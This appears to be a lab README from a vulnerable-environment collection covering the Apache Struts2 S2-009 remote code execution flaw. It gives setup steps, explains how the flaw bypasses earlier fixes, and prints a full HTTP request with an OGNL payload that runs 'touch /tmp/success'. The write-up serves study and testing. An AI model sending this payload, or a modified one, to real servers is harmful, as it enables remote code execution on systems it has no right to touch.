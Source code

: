 # S2-009 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Version: 2.1.0 - 2.3.1.1

Details: http://struts.apache.org/docs/s2-009.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

> This vulnerability is derived from s2-003, s2-005. If you want to understand the principle of the vulnerability, you need to read the instructions of s2-005: https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

[Struts2 vulnerability analysis](https://www.t00ls.net/viewthread.php?tid=21197), as mentioned in the article, the method of introducing OGNL may not only appear in this vulnerability, but may also appear in other Java applications.

Struts2's repair for s2-003 is prohibit `#`, so s2-005 is using the code `\u0023` or `\43` bypass the prohibition; then s2-005's repair is forbidden `\` and others special symbols that prevent users submit backslashes.

However, if a parameter `example` is accepted in the current action, this parameter will be sent to the OGNL expression. So, we can put the OGNL expression code in the `example` parameter and then execute it by `/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`, then bypass defense of special characters such as `#`, `\`.

## Exploit

The environment is a struts2 "feature display" website named `Struts Showcase`. We need find an action that accepts the parameter, and type is string.

First decompress `S2-009.war`. We can see that source code is in the `WEB-INF/src` directory, I generally look for ajax related code.

Found one in`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`:

```java
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```

The code is simple, it accepts the name parameter and calls setName to assign it to the private property `this.name`, which is in line with our requirement. Then we go to `WEB-INF/src/java/struts-ajax.xml` to see the URL routing setting:

```xml
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

We can see `name=example5`, so access the controller by visiting `http://your-ip:8080/ajax/example5.action`. Then put the OGNL exploit code in the name parameter and access the URL:

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/success%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

The POC don't have display, so we use `touch /tmp/success` command, and we found that the `success` file has been created to prove that expliot succeeded.

![](1.png)